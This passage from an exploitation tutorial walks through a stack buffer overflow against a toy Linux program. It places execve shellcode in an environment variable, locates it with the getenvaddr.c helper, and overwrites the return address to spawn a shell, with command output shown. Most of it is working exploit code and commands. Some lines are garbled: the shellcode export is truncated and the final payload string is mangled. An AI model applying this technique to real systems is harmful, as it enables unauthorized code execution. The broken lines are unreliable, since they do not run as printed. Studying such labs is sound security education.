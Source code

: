 That’s it!  

A worthful modification to the example1 source code is shortening the password array size from 64 to 10: in this way there’s not enough space to host the shellcode we designed. We need now 10+4+4 bytes to overflow the buffer, overwrite the saved EBP value and overwrite the return address. By attaching gdb to the running example1 process (just like in the previous post), I found out that now the password buffer is located at 0xFFFFD296. The way the following acts relies on the environment variables, as, in Linux, every program stores them on the stack: we can create one storing the shellcode and then jump there in a similar way saw before.  

Yes, yes, this is all doable, but we need to know the address where a given environment variable will be located when a program is loaded. To do this, there’s a nice piece of code taken from the wonderful book “Hacking: The Art of Exploitation, 2nd Edition“, called getenvaddr.c:  
``` c

 #include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[])
{
    char *ptr;
    if(argc < 3)
    {
        printf("Usage: %s  \n", argv[0]);
        return 0;
    }

    ptr = getenv(argv[1]); /* Get env var location. */
    ptr += (strlen(argv[0]) - strlen(argv[2])) * 2; /* Adjust for program name. */
    printf("%s will be at %p\n", argv[1], ptr);

    return 0;
}
```
So, getenvaddr accepts as arguments the environment variable we’re interested into and the program name we’re going to exploit. So, first thing first: we need to write the exploit into the environment variable. Obviously, the exploit we had still rocks:  
```
 $ export SHELLCODE=`python -c 'import sys; sys.stdout.write("\x83\xec\x7f\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\x04\x05\x04\x06\xcd\x80\xb0\x01\x31\xdb\xcd\x80
```
Now that the environment variable is set, it is possible to use the getenvaddr program:  
```

 $ ./getenvaddr SHELLCODE ./example1
SHELLCODE will be at 0xffffd522
```
Cool, we have our address. Now it is definitely easy to exploit the vulnerability, as the overwriting of the return address must be this value: 0xFFFFD522.  
```
 $ echo $$
23315
$ ( python -c 'import sys; sys.stdout.write("A"*14d5\xff\xff")'; cat ) | ./example1

echo $$
27609
whoami
user
ls
example1  example1.c  exploit  getenvaddr  getenvaddr.c  payload  shellcode  shellcode.asm  shellcode.o
```
That’s it!  

